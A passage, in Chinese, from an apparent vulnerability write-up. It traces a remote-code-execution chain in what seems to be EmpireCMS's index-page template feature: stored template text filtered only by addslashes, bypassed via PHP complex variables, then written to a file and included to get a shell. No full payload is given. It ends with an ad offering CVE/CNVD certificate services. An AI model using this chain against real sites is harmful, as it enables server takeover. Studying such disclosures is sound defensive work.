

首先从库里获取得到 $r[temptext] 作为参数传入 NewsBq，此时 $class 为 null。那么文件内容可控吗？查看一下入库的语句，看看存不存在任意写入，全局搜索 enewsindexpage

在同文件 ListIndexpage.php 的第 23 行到 47 行，调用 insert 语句向 enewsindexpage 中增加数据，关键代码如下  

```
function AddIndexpage($add,$userid,$username){
    global $empire,$dbtbpre;
    if(!$add[tempname]||!$add[temptext])
    {
        printerror("EmptyIndexpageName","history.go(-1)");
    }
    ...
    $add[tempname]=hRepPostStr($add[tempname],1);
    $add[temptext]=RepPhpAspJspcode($add[temptext]);
    $sql=$empire->query("insert into {$dbtbpre}enewsindexpage(tempname,temptext) values('".$add[tempname]."','".eaddslashes2($add[temptext])."');");
    ...
}

```

调用 AddIndexpage 的入口为：  

```
$enews=$_POST['enews'];
if(empty($enews))
{$enews=$_GET['enews'];}
if($enews=="AddIndexpage")
{
    AddIndexpage($_POST,$logininid,$loginin);
}

```

所以 $add 为 $_POST 获取的数组，经过一次 eaddslashes2 函数清洗后以 temptext 字段存入库，而 eaddslashes2 在内部调用的是 addslashes。猜想开发者最初可能只是为了防止 sql 注入，而没有进行其他类型过滤。但是我们执行任意命令是可以绕过 addslashes 的限制，取出来 temptext 字段来 rce。

只需要用到复杂变量：PHP 复杂变量绕过 addslashes() 直接拿 shell（https://www.jianshu.com/p/7c818ddc5731）

整理思路：入库 rce 语句 -> 取出库 -> 写文件 -> 包含 rce->getshell  

```
对于CNVD、CNNVD、CVE证书以及编号有需求的请查看我的咸鱼小店：
【闲鱼】https://m.tb.cn/h.UoeOto2?tk=ofaXdiesYRp CZ3457 「这是我的闲鱼号，快来看看吧～」
点击链接直接打开

```

五  

感谢关注

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
